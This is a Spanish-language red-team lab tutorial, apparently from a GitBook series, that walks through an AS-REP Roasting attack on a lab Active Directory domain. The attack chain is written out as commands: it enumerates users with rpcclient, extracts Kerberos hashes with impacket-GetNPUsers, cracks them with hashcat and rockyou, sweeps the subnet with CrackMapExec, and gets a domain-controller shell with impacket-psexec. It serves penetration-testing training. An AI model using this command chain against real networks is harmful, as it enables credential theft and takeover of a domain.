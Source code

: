 ```yaml
---
description: >-
  Este ataque se aprovecha de los usuarios que tienen activa la opción de "No
  requiere preautenticación de Kerberos".
---
```


# AS\_REP ROASTING

## INTRODUCCIÓN

{% hint style="info" %}
Este ataque está relacionado a las [malas prácticas](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/creando-un-laboratorio-de-ad/3.-misconfiguraciones-importantes):

* **2. Desactivar el Firewall de Windows.**
* **3. Desactivar las protecciones del Antivirus de Windows Defender.**
* **5. Asignar un SPN al usuario creado.**
* **9. Marcar la Opción "No requiere preautenticación de Kerberos".**
{% endhint %}

### Esquema de trabajo

Vamos a explotar el siguiente esquema.

En una red empresarial no hemos conseguido acceso a ningún activo por ahora, sin embargo, tenemos unos credenciales de usuario sin privilegios \(vgarcia:Password2\). Como parte de nuestra rutina tratamos de explotar un AS\_REP Roasting.

{% hint style="info" %}
La base de este ataque está en usuarios que tengan activa la Opción "No requiere preautenticación de Kerberos". Esto hace que el protocolo Kerberos expida un Ticket-Granting Ticket en nombre de dicho usuario sin comprobar su identidad.

Por tanto, cualquiera puede solicitar un **KRB\_AS\_REQ** en nombre del usuario y Kerberos devolverá un **KRB\_AS\_REP** que, recordemos, incluye una **Session Key** que está encriptado con el secreto del usuario. 

Por tanto, tenemos el Hash krb5asrep del usuario que podemos crackear facilmente, siempre y cuando la contraseña no sea muy robusta.
{% endhint %}

Para entender más en profundidad estos conceptos puede leer el siguiente artículo:

{% page-ref page="conceptos-importantes-antes-de-continuar.md" %}

### Herramientas necesarias

#### RPCClient

Herramienta para ejecutar el cliente de MS-RPC. Viene instalada por defecto en Linux.

{% embed url="https://web.mit.edu/darwin/src/modules/samba/docs/htmldocs/rpcclient.1.html" %}

#### CrackMapExec <a id="crackmapexec"></a>

Es una herramienta de post-explotación que se aprovecha de protocolos y características propias de los entornos de Directorio Activo para obtener una gran cantidad de información sobre los mismos.

Utiliza **Impacket** y **Powersploit Toolkit**

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

#### **Impacket**

Es una colección de clases de Python para trabajar con protocolos de red. Está pensada para obtener control a bajo nivel de los paquetes utilizados por algunos protocolos y, en algunos casos como SMBv1, la propia implementación del protocolo en sí mismo.

Concretamente para este ataque vamos a utilizar **impacket-GetNPUsers**

{% embed url="https://github.com/SecureAuthCorp/impacket" %}

#### PowerSploit Toolkit <a id="powersploit-toolkit"></a>

Es una colección de scripts de Powershell orientados a ayudar a pentesters en su proceso. Éste repositorio se encuentra deprecated.

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

#### Hashcat <a id="hashcat"></a>

Es el crackeador de hashes más rápido del mundo actualmente. Puede aprovecharse de la pontecia de una GPU. 

{% embed url="https://github.com/hashcat/hashcat" %}

#### **Resumen**

* Vamos a comprobar si existen usuarios con la opción "No requiere preautenticación de Kerberos" activada y a obtener sus TGTs.
* Vamos a crackear estos TGTs.
* Vamos a comprobar el alcance de los credenciales obtenidos.
* Vamos a acceder con una shell interactiva.

## EXPLOIT

### 1. Comprobar usuarios NP

Lo primero que debemos hacer es obtener los usuarios que tiene el Active Directory.

Con **rpcclient** podemos enumerar los usuarios del AD facilmente:

`rpcclient -U "vgarcia" -W hackpoc 192.168.1.100 -c enumdomusers`

![Obteniendo los usuarios de un Dominio.](../.gitbook/assets/as_rep1.png)

Los guardamos en un archivo users.txt \(Para acelerar el proceso podemos utilizar el siguiente oneliner:

`echo "Copiamos la salida del comando anterior" | grep '\[.*?\]' | grep -v '0x' | tr -d '[]'`

Una vez lo tenemos almacenados utilizamos impacket-GetNPUsers para comprobar cuantos de estos tienen la opción NP activa:

`impacket-GetNPUsers hackpoc/ -usersfile users.txt -format hashcat -outputfile as_rep.txt`

![Hash krb5asrep conseguido](../.gitbook/assets/as_rep2%20%281%29.png)

### 2. Crackear el Hash

A continuación tratamos de crackear el Hash utilizando Hashcat \(aunque tambien se puede utilizar john\).

1. Para averiguar el modo en el que trabaja hashcat con estos hashes sacamos: `hashcat --example-hashes | grep "krb5asrep" -B 2` 
2. Utilizamos hashcat para crackear el hash. `hashcat -m 18200 -a 0 as_rep.txt /usr/share/wordlists/rockyou.txt`

![Contrase&#xF1;a crackeada SVC-SQLService:MYpassword123\#](../.gitbook/assets/as_rep3.png)

### 3. Comprobar alcance de credenciales

Utilizamos CrackMapExec para comprobar si los credenciales obtenidos tienen capacidad de PSExec con alguno de los activos de la empresa.

`cme smb 192.168.1.0/24 -u "SVC-SQLService" -p "MYpassword123#"`

![El usuario SVC-SQLService es administrador de dominio &#xA1;Premio!](../.gitbook/assets/as_rep4.png)

### 4. shell interactiva con el DC

El usuario que hemos obtenido es un usuario administrador de dominio por lo que ahora tenemos capacidad de PSExec al DC.

`impacket-psexec hackpoc/SVC-SQLService:MYpassword123#@192.168.1.100 cmd.exe`

![&#xA1;Premio!](../.gitbook/assets/imagen%20%2883%29.png)

## REFERENCIAS

{% embed url="https://en.hackndo.com/kerberos-asrep-roasting/%0Ahttps://www.youtube.com/watch?v=KYFlvFfh-Js&list=PLlb2ZjHtNkpg2Mc3mbkdYAhEoqnMGdl2Z&index=2" %}



